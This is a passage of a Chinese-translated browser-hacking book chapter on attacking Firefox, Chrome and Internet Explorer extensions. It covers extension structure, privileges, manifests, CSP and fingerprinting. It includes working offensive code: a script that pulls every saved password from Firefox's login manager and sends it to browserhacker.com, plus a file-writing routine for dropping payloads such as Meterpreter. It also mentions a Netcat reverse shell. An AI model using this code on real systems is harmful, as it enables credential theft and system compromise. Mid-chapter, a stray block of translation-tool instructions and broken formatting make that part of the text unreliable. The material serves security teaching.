32. Microsoft. (2009). 理解 DEP 作为缓解技术的一部分 - Security Research & Defense––Site Home––TechNet blogs。2013 年 8 月 12 日检索自 [`http://blogs.technet.com/b/srd/archive/2009/06/05/understanding-dep-as-a-mitigation-technology-part-1.aspx`](http://blogs.technet.com/b/srd/archive/2009/06/05/understanding-dep-as-a-mitigation-technology-part-1.aspx)

33. Microsoft. (未知年份). /SAFESEH (Image has Safe Exception Handlers)。2013 年 8 月 12 日检索自 [`http://msdn.microsoft.com/en-us/library/9a89h429(v=vs.80).aspx`](http://msdn.microsoft.com/en-us/library/9a89h429\(v=vs.80\).aspx)

34. Microsoft. (2009). 防止用户模式堆栈损坏漏洞的利用。2013 年 8 月 14 日检索自 [`http://blogs.technet.com/b/srd/archive/2009/08/04/preventing-the-exploitation-of-user-mode-heap-corruption-vulnerabilities.aspx`](http://blogs.technet.com/b/srd/archive/2009/08/04/preventing-the-exploitation-of-user-mode-heap-corruption-vulnerabilities.aspx)

35. Alexander Sotirov. (未知年份). JavaScript 堆栈风水。2013 年 8 月 12 日检索自 [`http://www.phreedom.org/research/heap-feng-shui/heap-feng-shui.html`](http://www.phreedom.org/research/heap-feng-shui/heap-feng-shui.html)

36. Jason Evans. (2012). jemalloc。2013 年 8 月 12 日检索自 [`http://www.canonware.com/jemalloc/`](http://www.canonware.com/jemalloc/)

37. Wikipedia. (2013). 局部性原理 - Wikipedia，自由的百科全书。2013 年 8 月 12 日检索自 [`http://en.wikipedia.org/wiki/Principle_of_locality`](http://en.wikipedia.org/wiki/Principle_of_locality)

38. Patroklos Argyroudis and Chariton Karamitas. (2012). 利用 jemalloc 内存分配器：拥有 Firefox 的堆栈。2013 年 8 月 12 日检索自 [`https://media.blackhat.com/bh-us-12/Briefings/Argyoudis/BH_US_12_Argyroudis_Exploiting_the_%20jemalloc_Memory_%20Allocator_WP.pdf`](https://media.blackhat.com/bh-us-12/Briefings/Argyoudis/BH_US_12_Argyroudis_Exploiting_the_%20jemalloc_Memory_%20Allocator_WP.pdf)

39. CVE. (2013). CVE-2013-0753。2013 年 8 月 12 日检索自 [`http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-0753`](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-0753)

40. Mozilla. (2013). 814001—(CVE-2013-0753) [FIX] XMLSerializer Use-After-Free Remote Code Execution Vulnerability (ZDI-CAN-1608)。2013 年 8 月 12 日检索自 [`https://bugzilla.mozilla.org/show_bug.cgi?id=814001`](https://bugzilla.mozilla.org/show_bug.cgi?id=814001)

# Chapter 7

# 攻击扩展

在上一章中，你探索了直接攻击浏览器。本章进一步沿着功能链向前，展示如何攻击浏览器扩展。

浏览器扩展是可选的软件，可以为浏览器添加或移除功能。第三方，如防病毒供应商或社交网络站点，通常创建扩展。它们可以由用户自愿安装，也可以在安装其他程序时作为副作用被安装。

历史上，浏览器扩展并未以安全为考虑进行开发。扩展可以访问敏感用户信息、特权 API，甚至底层操作系统。缺乏安全关注以及特权上下文，使扩展成为易受攻击的目标。

浏览器扩展非常流行，攻击面相当大。扩展的漏洞类别差异很大，从命令注入到经典的跨站脚本（XSS）漏洞不等。利用技术的复杂度也各不相同。

重要的是，扩展会与加载的网页交互，并创建易于利用的攻击路径。本章通过利用 Firefox 和 Chrome 扩展中的漏洞，探讨这些攻击路径。

# 理解扩展解剖结构

让我们探索扩展是什么以及它们如何因浏览器而异。如果你对扩展在浏览器生态系统中的作用有充分了解，可以直接跳到本章更活跃的攻击部分。

通过将非必要功能的开发交给第三方，浏览器开发者可以专注于核心功能。这可以减少代码膨胀和潜在的错误。显然，需要填补浏览器与不同用户需求之间的差距。这就是扩展在浏览器故事中的作用。

用于实现扩展的技术是常见的，行业内的人员应该相对熟悉它们。它们可以用多种语言编写，最可能最不令人惊讶的支持语言是 JavaScript。

扩展会改变浏览体验。它们可以通过修改菜单、修改页面、创建弹窗等方式改变用户界面。扩展可以从 Firefox 添加-ons 和 Chrome 网上应用店下载安装。当然，你也可以自己编写。

扩展的工作方式类似于在操作系统上安装的应用程序。就像操作系统应用程序一样，扩展是为特定架构编写的。这意味着扩展只能在其开发的特定浏览器上安装，不能在其他浏览器上使用。因此，某些攻击技术虽然相似，但根据浏览器的不同，攻击方法会有所差异。

扩展可以跨越浏览器加载的所有页面。例如，NoScript 扩展可能影响浏览器加载的每一页。其他扩展也可能如此。将扩展视为在每个加载的页面中运行的虚拟 Web 应用是有帮助的，这在本章后续的漏洞发现部分将被进一步探讨。

## 扩展与插件的区别

扩展和插件有时难以区分，但它们存在一些主要区别。扩展位于浏览器的进程空间内，而插件可以独立运行。扩展可以创建浏览器菜单和标签页，而插件不能。


与扩展不同，插件仅影响其加载的页面，这意味着它不会自动包含在任何网页中。插件的加载可以通过两种方式实现。第一种是服务器返回特定的 MIME 类型。例如，Adobe Reader 可能会在浏览器中显示 PDF，对应的内容类型为 `application/pdf`。第二种方式是使用 `<object>` 标签（或 `<embed>` 标签），这同样会影响加载它的页面。你将在下一章深入探讨插件的攻击方法。

## 扩展与附加组件的区别

“附加组件”一词可能是浏览器术语中使用最为混淆的。它在行业内使用并不一致。可以将其视为浏览器增强的统称，涵盖插件、扩展等。

Google 通常使用“扩展”或“插件”，但对其可下载的 Google Analytics Opt-out 浏览器附加组件使用“附加组件”。¹ Microsoft 将“扩展”一词用于 `ActiveX controls`、`browser helper objects` 和 `toolbar`s。² Mozilla 将附加组件的定义进一步扩展，包括上述内容以及 `themes`、`dictionaries` 和 `search bars`。³

总体而言，大多数情况下，附加组件指的是除浏览器本身和插件之外的所有项目。有了这些前提，我们不会讨论所有不同的附加组件。本章专门聚焦于扩展，按照 Mozilla 的定义以及其他浏览器厂商的相似定义。

## 权限的探索

扩展的权限因浏览器和开发者而异，但在深入细节之前，可以先作一个简要的概括。每个浏览器厂商提供的扩展环境都拥有提升的浏览器功能访问权限。这点一致，也是扩展对终端用户有用的原因；同样，也是它们对攻击者有用的主要原因。

要理解在目标浏览器扩展时的关键点是：它在特权上下文中运行。主要的两个区域分别是低特权的 Internet 区域和高特权的浏览器区域（也称为 chrome:// 区域）。在某些情况下，即使在扩展内部，组件的权限也会有所不同。Figure 7-1 展示了扩展的基本结构及其与浏览器和底层操作系统的关系。它可以访问提供超出普通网页功能的特权 API，这些功能包括访问敏感用户数据，以及在某些情况下执行操作系统命令。

start figure 

**Figure 7-1:** 基本扩展结构


end figure 

扩展通常拥有比实际需要的更多权限。这可能是因为浏览器架构不支持降低特权，也可能是开发者在安装时请求了过多权限。当然，权限越多，扩展作为攻击目标就越具吸引力。

### 非特权 Internet 区域

Internet 区域是非特权的浏览器区域。你可能已经非常熟悉它的工作方式。它遵循同源策略（SOP），对敏感用户数据的访问受限，不能直接影响操作系统。

Internet 区域是 JavaScript 在从 Web 应用返回时执行的非特权上下文。简言之，它是几乎所有 Web 应用代码执行的上下文。

### 特权浏览器区域

扩展虽然在某种程度上像虚拟的 Web 应用，但它们不是通过 HTTP 或 HTTPS 传输的，而是运行在自己的 URI 方案中，由于同源策略的限制，普通网站或本地文件无法访问该方案。

特权浏览器区域（也称为 chrome:// 区域）是扩展代码执行的地方。它是浏览器内部高度受信任的区域。chrome:// 区域可以访问敏感用户信息和特权 API，并且不受同源策略限制。

浏览器的 chrome:// 并不等同于 Google Chrome 浏览器。术语在浏览器领域是多义的，但通常有足够的上下文可以判断指的是哪个概念。

为了避免混淆，本书在讨论特权上下文时统一使用 chrome:// 方案。

## 理解 Firefox 扩展

Firefox 扩展并不像其他浏览器厂商的扩展那样有所不同，它们都是在扩展浏览器的功能。许多与浏览器相关的技术通常使用 JavaScript 编写，这一点被 Mozilla 鼓励并通过其在线扩展编辑器简化，使开发者能够在线编写和测试扩展。

Firefox 扩展非常易于安装，且默认开启安装和使用扩展的功能。扩展会在每个加载的源（origin）上工作，除非被显式禁用或浏览器以安全模式启动。当 Firefox 浏览器以安全模式启动时，所有扩展都会被禁用。

Figure 7-2 以安全为导向的 Firefox 扩展架构视图，展示了攻击面和后续章节涵盖的利用路径概览。

start figure 

**Figure 7-2:** 相关 Firefox 扩展结构


end figure 

### 查看源码

Firefox 扩展的文件结构使用 zip 格式压缩。它不使用传统的 .zip 文件名后缀（我们不会使用“文件名后缀”以免混淆），而是使用 .xpi（发音为“zippy”）作为后缀。

这意味着你已经熟悉解压 Firefox 扩展的过程，因此无需学习新的获取源码的方法。你只需使用喜欢的解压程序即可查看目标 Firefox 扩展的目录结构。

start feature 

* * *

**Firefox Extension Directory Structure** Firefox 扩展遵循非常相似的结构，各目录有明确的用途。目录结构通常如下：

*   Chrome 包含进一步的子目录

*   Content 包含主要功能

*   Skin 包含图片和 CSS

*   Defaults 包含偏好设置

*   Components 包含 XPCOM 组件（如需要）

Content 目录很可能是你感兴趣的重点，它通常包含主扩展 JavaScript，以及在某些情况下的二进制库。Figure 7-3 展示了 FirePHP 扩展的文件结构。此示例未展示扩展可以包含的所有元素。在此例中，扩展开发者未使用 Components 目录。start figure  

**Figure 7-3:** FirePHP 扩展的目录结构

 end figure  

* * *

end feature 

#### 解释更新过程

可能感兴趣的文件是 install.rdf，它不仅包含安装信息，还包含更新过程的细节。与更新相关的（非强制）参数是 updateURL 和 updateKey。

updateURL 和 updateKey 的存在与否表明 Firefox 如何管理扩展的更新。如果两者都不存在，则扩展的更新完全由 Mozilla add-ons 管理，你只有有限的攻击面可以针对更新过程。如果指定了 updateKey，或 updateURL 使用 HTTPS 方案，你的攻击面也会受到限制。


如果在 install.rdf 文件中包含 updateKey 参数，它将包含一个公钥。此时，必须使用对应的私钥签名从指定的 updateURL 传递的所有更新。在这种情况下，Firefox 会验证所有更新的完整性，从而阻止您干扰更新过程。

在一个场景中，install.rdf 文件包含 HTTP updateURL，且 updateKey 被省略，存在安全问题。这意味着没有任何更新的完整性被验证，并且它们通过明文通道传递。当 Firefox 启动时，它会连接到 updateURL 并请求 update.rdf，其中包含版本信息，Firefox 将使用该信息决定是否需要更新。

如前面章节所示，可以使用中间技术控制明文通信通道。一旦您对该更新通道拥有控制权，交付自己构建的更新过程就变得微不足道。

### 理解 XUL 和 XBL

XML 用户界面语言（XUL）是一种在 Firefox 浏览器的外观（chrome）中表达可视内容的方式。但仅此而已！当按下键盘或点击鼠标时不会发生任何操作。这时 XML 绑定语言（XBL）就派上用场。它将可视内容与 JavaScript 结合，为您点击按钮时所期待的所有功能提供支持。

令人惊讶的是，Firefox 浏览器本身也是用 XUL 编写的，您可以通过在地址栏中输入 chrome:// URL 来看到这一点。如果您在浏览器中输入 chrome://browser/content/browser.xul，您将看到图 7-4 中的界面。

start figure 

**Figure 7-4:** Firefox chrome:// 示例


end figure 

图 7-4 显示 Firefox 浏览器加载 chrome://browser/content/browser.xul 的 URL。加载的内容也是功能性的，因为 XUL 与 XBL 相结合。您可以看到，在第二个地址栏中输入相同的 URL，会创建第三种浏览器外观呈现。

关于 XUL 和 XBL 的这些描述比较简化，但它们提供了简要背景，因为此类攻击在理论上是主要存在的。因此，它们不会直接被检查，但下面章节中涵盖的许多细节同样适用于利用这些技术的漏洞。

### 探索 XPCOM API

跨平台组件对象模型（XPCOM）API 为浏览器扩展提供了额外功能。XPCOM 是浏览器使用的跨平台组件模型。如果您熟悉 Microsoft COM，将 XPCOM 视为 Mozilla 自己的版本会很有帮助。

扩展中的 JavaScript 需要一种方式来访问 XPCOM。这就是 XPConnect 的作用，它促进了 XPCOM 与 JavaScript 之间的通信。它提供了一个透明层，使您能够使用 JavaScript 调用 XPCOM 中的函数。基本上，它就是您在 chrome:// 区域内调用 XPCOM API 的手段。

得益于 Nick Freeman 和 Roberto Suggi Liverani 的研究，好消息是扩展可以使用在操作系统上下文中运行的 XPCOM 组件。让我们深入研究他们的研究成果以及 XPCOM 所能让您执行的操作。

#### exposing the Login Manager（暴露登录管理器）

Firefox 与所有网络浏览器一样，提供了存储用户在访问的 Web 应用中用户名和密码的方法。这些敏感信息也可通过 XPCOM API 访问。这意味着从扩展可以查询登录管理器。

nsILoginManager 接口用于操作 Firefox 内的密码管理器功能。该接口提供添加、删除、修改和查看存储凭据的方法。该 API 所提供的功能包括具有明显用途的 getAllLogins() 方法：

```
// Get the login manager object
var l2m=Components.classes[
"@mozilla.org/loginmanager;1"].
getService(Components.interfaces.nsILoginManager);

// Get all credentials from the login manager
allCredentials = l2m.getAllLogins({});

// Extract all the hosts, usernames and passwords
for (i=0;i<=allCredentials.length;i=i+1){
  var url = "http://browserhacker.com/";
  url += "?host=" + encodeURI(allCredentials[i].hostname);
  url += "&user=" + encodeURI(allCredentials[i].username);
  url += "&password=" + encodeURI(allCredentials[i].password);
  window.open(url);
}
```

这段代码演示了如何从 Firefox 登录管理器中提取所有内容。它会向 http://browserhacker.com 发送包含凭据的 HTTP 请求。图 7-5 是一张截图，展示了这可能在 Apache 日志中的样子。

start figure 

**Figure 7-5:** 被盗凭据的 Apache 日志


end figure 

#### 从文件系统读取

SOP 不适用于扩展中的 URL。在特权 chrome:// 区域内的指令几乎不受限制，可以访问任意来源。file:// 协议变得非常有用。

您可以使用 document.ReadURL.readFile 方法在 chrome:// 区域内读取文件系统中的任意文件：

```
var fileToRead="file:///C:/boot.ini";
var fileContents=document.ReadURL.readFile(fileToRead);
```

在扩展的特权上下文中，上述代码会读取 c:\\boot.ini 文件。

#### 向文件系统写入

Firefox 用于向文件系统写入的 XPCOM API 名为 nsIFileOutputStream。与前面讨论的本地文件访问类似，该接口允许浏览器向浏览器有权访问的文件系统的任何位置写入。

使用此 XPCOM API 可以在攻击期间提供更大的灵活性。例如，它可用于部署 Metasploit Meterpreter 等负载或您选择的任何远程访问工具：

```
function makeFile(bdata){
  var workingDir= Components.classes[
  "@mozilla.org/file/directory_service;1"]
   .getService(Components.interfaces.nsIProperties)
   .get("Home", Components.interfaces.nsIFile);

  var aFile = Components.classes["@mozilla.org/file/local;1"]
        .createInstance(Components.interfaces.nsILocalFile);
  aFile.initWithPath( workingDir.path + "\\filename.exe" );
  aFile.createUnique(
      Components.interfaces.nsIFile.NORMAL_FILE_TYPE, 777);

  var stream = Components.classes[
        "@mozilla.org/network/safe-file-outputstream;1"]
        .createInstance(Components.interfaces.nsIFileOutputStream);
  stream.init(aFile, 0x04 | 0x08 | 0x20, 0777, 0);
  stream.write(bdata, bdata.length);
  if (stream instanceof Components.interfaces.nsISafeOutputStream){
    stream.finish();
  } else {
   stream.close();
 }
}
```

makeFile() 方法使用 XPCOM 在（Windows）文件系统中写入文件。它需要 chrome:// 区域的特权才能成功执行。

#### 执行操作系统命令

显然，您想知道如何在目标操作系统上执行程序。这就是您将获得连接并运行负载的方式。XPCOM 也提供了实现此功能的方法！

nsIProcess 代表 Mozilla 环境中的可执行进程。您可以从 Firefox 扩展中使用它来执行目标文件系统上的程序。以下代码演示了如何使用 Netcat 在 Linux 操作系统上执行一个反向 shell：


-   示例使用 `nsILocalFile` 和 `nsIProcess` 来妥协运行目标浏览器的系统。图片 [7-6 和 7-7 是代码执行和反向 shell 运行的截图。

start figure 

**Figure 7-6:** 反向 shell 代码


end figure start figure 

**Figure 7-7:** 反向 shell 连接


end figure 

### 检查安全模型

Firefox 扩展以浏览器的完整权限运行。也就是说，在 chrome:// 区域运行的任何指令都不会受到权限限制。这里的重要点是，Firefox 没有 sandboxing 概念，也没有安全边界。这种非常扁平的权限模型使得任何扩展的妥协几乎可以直接访问浏览器 API、文件系统和操作系统。

#### 探索 Chrome 区

Firefox 的特权 chrome:// 区拥有自己的 URI 方案（chrome://），并通过完整的 API 向扩展开发者提供对浏览器的全面访问。例如，扩展可以重新配置浏览器和其他扩展、获取 Cookie 和存储的密码，以及下载文件和执行操作系统命令（在浏览器所在的操作系统用户上下文中）。

与 Chrome 不同，Chrome 会在后续章节中讨论，而 Firefox 扩展开发者无法限制对不同权限级别的访问。这导致所有扩展都拥有所有权限。

在特权上下文中执行远程代码是 Firefox 扩展中最常见的漏洞。9 由于扩展以与浏览器相同的权限运行，10 成功的妥协也会以相同的权限运行。此外，你还可以利用扩展 API 执行操作系统命令，这为你提供了简单可靠的利用路径。

#### 了解 Chrome 扩展

与 Firefox 扩展类似，Chrome 扩展也拥有提升权限。它们可以做普通页面 JavaScript 代码无法做的事。例如，Chrome 扩展可以访问所有打开的标签页、发送跨源请求、读取 Cookie（包括标记为 HttpOnly 的 Cookie）等。

Chrome（manifest 版本 2）的架构比 Firefox 更为复杂，如图 7-8 所示。它同样拥有特权 chrome:// 区，并附加一个安全边界。

start figure 

**Figure 7-8:** 相关 Chrome 扩展结构


end figure 

Chrome 扩展包含一个 manifest 文件和若干组件，这些组件由后台页面、UI 页面和内容脚本的组合构成。它可能还有其他组件，但这些是你最常见的。

Chrome 扩展会在后台静默更新，因此目标很可能已经安装了最新版本的扩展。

#### 检查源代码

你不需要高超的逆向工程技能来剖析 Chrome 扩展。它们是用（你猜的！）JavaScript 和 HTML 编写的。只需从 Chrome Web Store 下载目标扩展即可。Chrome 使用 .crx 后缀作为扩展文件名，很容易辨认。它们只是一个压缩的目录结构，类似于 Firefox 扩展。接下来，解压扩展代码并打开你喜欢的 IDE，这将让你能够使用静态分析工具并通过手动代码审查发现漏洞。

有时静态分析不足。但等一下，Chrome 来救场！你可以在浏览器中安装该扩展并轻松地动态调试它。在 chrome://extensions 中启用开发者模式，你就可以将任何未打包的扩展加载到你选择的目录中。

现在你已启用开发者模式，可以使用“Inspect Views”选项来启动 Chrome 开发者工具窗口。在 Extensions 标签页中，点击“Inspect Views”项后的文件链接即可。Figure 7-9 展示了 Amazon 扩展的开发者模式选项。可以看到，你需要点击 background.html 链接，但这不总是如此。它可能是其他文件名。

start figure 

**Figure 7-9:** 访问开发者工具


end figure 

Figure 7-10 展示了开发者工具的使用。在这里，你可以浏览扩展代码、执行 JavaScript、设置断点、修改代码等。这个环境为动态探索目标扩展提供了简单可靠的方式。

start figure 

**Figure 7-10:** 调试扩展


end figure 

### 解读 Manifest

Chrome 扩展必须包含 manifest.json 文件。具备侦探能力的你会立刻知道它需要是 JSON 格式。该文件描述了扩展在正常功能期间将访问的资源。

下面的代码片段展示了你在 manifest.json 文件中可能看到的内容：

```
{
  "name": "extensionName",
  "version": "versionString",
  "manifest_version": 2

  <rest of content>
}
```

manifest 版本 1–基于的扩展安全限制相对宽松。正如你所料，这大大促成了流行 Chrome 扩展中漏洞的发现。12 它默认授予开发者访问特权 API 的权限，而开发者则毫不保留地分配了超出需求的权限。

为了应对，Google 引入了 manifest 版本 2，该版本采用安全默认策略。最显著的变化是强制在扩展代码的某些部分启用内容安全策略（Content Security Policy）。这一改动旨在缓解跨站脚本（XSS）漏洞，并是一个重要的安全提升。

到本书出版时，Chrome 将不再支持使用 manifest 版本 1 的扩展。Chrome 将严格只运行具有版本 2 manifest 的扩展。撰写本文时，Google 正在对 manifest 版本 1 扩展进行废弃处理。

在过渡期间，manifest 版本 1 的利用示例更为丰富。在很多情况下，相同或非常相似的攻击同样适用于 manifest 版本 2 的扩展，但需要一些前提条件，后文将说明。

最重要的一点是，manifest 版本 2 隐含了大量安全限制，且 version 2 扩展的攻击面更小。为 version 1 设计的许多攻击仍然适用于 version 2，只是需要更多前提条件。

#### 检查内容脚本


粗体（**bold**）和斜体（*itatic*）需要翻译翻译内容并保留符号。  
内联代码（`code`）和代码块不需要翻译。  
链接（[link](https://example.org)）需要翻译其内容，但保留网址。  
列表，表格，引用块保留格式，翻译内容  
原文可能有多行，不要漏掉任何一行，并且注意一定不要重复输出原文！！！  
输出应包含在“[content]...[/content]”中  


-   [请特别注意带通配符匹配模式的扩展，如`file:///\*`, `http://\*/\*`, `\*://\*/\*`, 或`<all_urls>`。这些扩展可能会被用户访问的任何网站利用。]
-   ### 研究权限
    -   许多 Google Chrome 扩展程序请求并获得浏览器内的高权限。这使它们能够执行网站源不能做的操作。这种特权访问使它们对目标更有用，也使得被攻击的扩展对你更有价值。这一点尤其重要，因为扩展具备绕过 Same Origin Policy 限制的能力。
    -   鉴于运行此类特权代码的显著安全影响，开发者必须在安装时明确规定将使用 API 的部分。权限在 `manifest.json` 文件中声明。以下示例展示了一个典型的声明：
    ``` 
    "permissions": [ "http://*/*", "https://*/*", "tabs", "cookies" ], 
    ```
    -   安装扩展后，用户会看到一个确认对话框，列出扩展权限的可读描述。18 一旦用户点击“添加”，扩展即安装，拥有对话框中列出的全部权限，如图 7-11 所示。
    -   start figure
    -   **Figure 7-11:** The Quick Note extension requesting permissions upon install
    -   
    -   end figure
    -   许多在 Google Chrome Web Store 中的扩展请求访问所有网站的数据。同意安装此类扩展即意味着授予其读取用户访问的每一页的权限，包括使用 HTTPS URI 方案的站点。
    -   这些扩展可以读取密码、挂载键盘记录器等。有些甚至通过 HTTP 将数据发送给第三方。这些不安全的做法表明开发者未将安全放在首位，可能使这些扩展成为更具攻击性的目标。
-   ### 研究安全边界
    -   安全边界将内容脚本（及网页）与扩展的其余部分隔离。内容脚本在网页的 HTTP(S) 源上下文中运行，其他页面则在 `chrome-extension://` 源上运行。这两个源仅通过消息传递通信，默认情况下形成有效屏障，将不受信任的网页与高特权扩展后端隔开。
    -   Google 甚至提供了 19 个不安全编码实践的示例，帮助你理解和发现目标扩展中的安全漏洞。以下示例在扩展的后台页面运行并与内容脚本通信：
    ``` 
    chrome.tabs.sendMessage(tab.id, {greeting: "hello"}, function(response) {
      var resp = eval("(" + response.farewell + ")");
    });
    ```
    -   上述代码不安全地使用 `eval`，将内容脚本的消息作为参数的一部分。下一个示例利用 `innerHTML` 将不受信任的响应写入 DOM：
    ``` 
    chrome.tabs.sendMessage(tab.id, {greeting: "hello"}, function(response) {
      document.getElementById("resp").innerHTML = response.farewell;
    });
    ```
    -   查找 `eval` 和 `innerHTML` 的使用是进行代码审计的良好起点，尤其是在后台页面中。这些示例会导致跨内容脚本（Cross-content Scripting）漏洞，相关内容将在本章后部分详细说明。
    -   要利用这些漏洞，你需要先通过内容脚本 smuggle 攻击，从而间接获得消息传递 API 的访问权限。但还有一种场景：开发者可以在 `manifest.json` 中明确声明消息传递 API 可直接从网页访问：
    ``` 
    "externally_connectable": {
      "matches": ["http://browservictim.com/*"]
    }
    ```
    ``` 
    }
    ```
    -   在上述 JSON 代码中，你可以看到 `externally_connectable` 声明，指定哪些源可以直接访问消息传递 API。检查目标扩展的 `manifest.json` 是否存在此声明很有价值。
    -   由于 Google 未允许更宽泛的通配符（如 `*` 或 `*.com`）在 `externally_connectable` 的匹配模式中使用，攻击面因此受到限制。不过，如果 `http://browservictim.com` 存在 XSS 漏洞，仍可能成为攻击途径。
    -   Chrome 扩展仅允许预定义的消息传递方式，这大幅减少了攻击面。但仍可能存在足够的攻击空间，因此仍值得关注。
-   ### 研究内容安全策略（CSP）
    -   Google 将内容安全策略（CSP）纳入 Chrome 扩展的基础之中。20 如前所述，CSP 是对 web 资源施加的限制集合，可根据脚本的源决定是否允许或禁止执行脚本，从而有效降低开发者“自砍手”的风险。
    -   扩展使用的具体 CSP 限制在 `manifest.json` 中通过 `content_security_policy` 参数定义。若未明确声明，Chrome 会应用一套相对严格的默认限制。默认 CSP 指令示例如下：
    ```
    script-src 'self'; object-src 'self'
    ```
    -   该指令意味着对后端扩展组件的任何成功注入攻击的限制：
        -   不允许加载外部脚本，例如 `<script src=http://browserhacker.com>` 不会执行。
        -   不允许加载外部对象，如 Java、Flash 等。
        -   不允许内联脚本，如 `<script>code</script>`。
        -   不允许 `eval()` 及其衍生函数。
    -   这意味着攻击面被缩小。但问题是：有多少开发者会为了便利而放宽 CSP 指令？开发者（包括扩展开发者）常使用 JavaScript 模板引擎，而许多此类引擎依赖 `eval()` 函数。要使其正常工作，`manifest.json` 必须包含 `unsafe-eval` 指令。
    -   别小看安全，别认为它比那个炫酷的新 JavaScript 模板引擎更重要！如果你非常安静，几乎能听到项目经理的“风险接受”呼喊，以及那个弯腰的安全工程师低声咒骂。
    -   CSP 同时适用于扩展的 UI 页面和后台页面。仅限于安全边界内的扩展组件享受此保护，不适用于内容脚本。因此，当你在内容脚本中发现漏洞时，可以确信其可被利用。虽然运行在内容脚本中的代码权限受限，但影响仍然可观。本章后续将进一步介绍此类攻击。
    -   请务必检查目标扩展的 `manifest.json` 中的 `content_security_policy` 参数。安全可被锁定，但未必会被锁定。
-   ### 讨论 Internet Explorer 扩展
    -   Internet Explorer（IE）扩展的用户基数不如 Firefox 或 Chrome 普及。无论原因何在，这导致 IE 扩展的攻击范围相对较小。
    -   Microsoft 将 Internet Explorer 扩展归类为 Browser Helper Objects（BHOs）、工具栏和 ActiveX 控件。22 这些技术主要编译为 native code，因此可能易受传统缓冲区溢出、格式字符串漏洞和整数错误的影响。


-   [Internet Explorer 扩展程序](https://en.wikipedia.org/wiki/Internet_Explorer_extensions) 可以使用托管代码编写，这降低了这些漏洞的发生概率。但有趣的是，Microsoft 建议浏览器扩展程序不应使用托管代码。23 这是因为它们在浏览器进程中运行，Microsoft 不希望扩展程序减慢用户体验。

-   与 Chrome 和 Firefox 的扩展程序不同，你通常无法解压 Internet Explorer 扩展程序以查看源代码。由于它们是为 Windows 操作系统编译的，查看其源代码并不是一个简单的选项。不过，你可能可以通过 F12 开发工具获得对其功能的一些可见性。

-   攻击本机编译软件超出了本书的范围，但大量优秀的资源可供深入研究此领域。其中一些资源在第一章中列出，如果你对此感兴趣，可以回到第一章查看。

-   当然，扩展程序的实现方式仍可能导致 XSS 等漏洞。此类攻击的范围不如其他浏览器的扩展程序大，因此在本节中仅作顺带提及。

# Fingerprinting Extensions

-   存在多种方法来指纹识别目标浏览器的许多部分，扩展程序也不例外。识别目标正在使用的扩展程序将对你大有帮助。这将使你能够更精准地发起攻击，并在攻击过程中消除不确定性。

-   包括 Brendan Coles、Graziano Felline、Giovanni Cattani、24 和 Krzysztof Kotowicz25 在内的研究人员提出了多种枚举目标正在使用的扩展程序的方法。扩展程序并不隐藏它们增加了浏览器攻击面的事实。事实上，有些甚至会主动广播这一点。

-   下面的章节将探讨多种检测目标正在使用的扩展程序的方法。

## Fingerprinting using HTTP Headers

-   部分扩展程序会以细微方式修改请求头，而其他扩展程序则以一种“显而易见”的方式进行修改。为了进行指纹识别，你需要检查目标扩展程序是否以任何方式修改了请求头。

-   你可以在安装前后捕获请求头，然后通过 diff 比较结果。请记住，有些扩展程序只有在被主动使用时才会修改请求头。这正是即将展示的 FirePHP 示例的情况。

-   另一种检测请求头修改的方法是查看扩展程序的源代码。当然，Firefox 和 Chrome 的扩展代码是可用的，因为安装文件仅是包含代码的压缩 .zip 文件。

-   在 Chrome 扩展中，可以通过后台页面（通常是后台页面）实时修改请求。你需要搜索 chrome.webRequest.onBeforeSendHeaders 函数调用。使用该 API 需要 webRequest 权限，因此首先应检查 manifest.json 文件中是否包含该权限。如果没有，则无论 onBeforeSendHeaders 函数是否被使用都无关紧要。

-   另一种在 Chrome 扩展中注入自定义请求头的方法是通过内容脚本。你只需在发送 Ajax 请求时使用 XMLHttpRequest.setRequestHeader 函数即可。搜索该函数也能帮助你发现扩展程序是否在操纵浏览器请求头。

-   在 Firefox 扩展中，搜索 setRequestHeader 可以识别请求头被修改的位置。下面的 FirePHP 代码片段显示该扩展修改了 User-Agent 请求头：

```
httpChannel.setRequestHeader("User-Agent", 
  httpChannel.getRequestHeader("User-Agent") + ' '+
  "FirePHP/" + firephp.version, false);
```

-   这导致 FirePHP 扩展在 User-Agent 头中追加 FirePHP/<版本号>，从而表明扩展已安装，并告知你其版本号。你可以很容易地检测到以下请求头：

```
GET / HTTP/1.1
Host: browserhacker.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac 
OS X 10.8; rv:22.0) Gecko/20100101 Firefox/22.0 FirePHP/0.7.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

-   上述 HTTP 头是 Firefox 浏览器向服务器发送的请求，其中包含 FirePHP/0.7.1 字符串。在此情况下，扩展不仅告知你它已安装，还告知你其版本。

## Fingerprinting using the DOM

-   你已经认识到 DOM 是一片巨大的森林，包含无数叶子。许多 DOM 属性可以被访问。如前一章讨论过，某些属性仅在特定浏览器中存在。同样，某些 DOM 属性仅在特定扩展程序已安装并激活时存在。

-   在使用 DOM 进行指纹识别时，请关注 iframe、overlay 和隐藏 <div> 元素。它们有时会在满足特定条件（如特定域名、网站标题或某些元素的存在）时出现在 Web 应用中。使用 Firebug 观察空白 HTML 页面上扩展的行为，然后根据扩展代码分析后添加内容会很有帮助。

### LastPass 示例

-   LastPass 是一个密码管理器，旨在通过提高密码管理的安全性来实现目标。在 Chrome 中，LastPass 扩展在构建 HTML 之前会钩入 DOM。Chrome 扩展的配置在其 manifest 文件中，如下所示，onloadwff.js 在所有 URL 中于 document_start 时加载：

```
"all_frames": true,
"js": [ "onloadwff.js" ],
"matches": [ "http://*/*", "https://*/*", "file:///*" ],
"run_at": "document_start"
```

-   让我们忽略那个令人质疑且极其宽松的 file:///\* 匹配模式，继续进行指纹识别。在 onloadwff.js 文件中，自定义函数会被添加到 DOMContentLoaded 事件。浏览器在文档加载并解析后触发此事件，但通常在内部框架、图片或样式表解析之前。最终，扩展会通过添加一个新的空 script 标签来修改已渲染页面的 DOM：

```
<script id="hiddenlpsubmitdiv" style="display: none;"></script>
```

-   扩展还会在 DOM 的底部嵌入 JavaScript。无论哪种情况，现在 DOM 中留下了痕迹，其他脚本或元素可以通过这些痕迹检测到扩展的存在。正如第 6 章讨论过的，通过检查 DOM 来自带的浏览器属性进行指纹识别是有效的方法，LastPass 的情况亦是如此。唯一的例外是：如果 HTML 中不包含任何表单，LastPass 将不会修改 DOM。这一点在 onloadwff.js 文件中显而易见：

```
if(b != "acidtests.org" && 
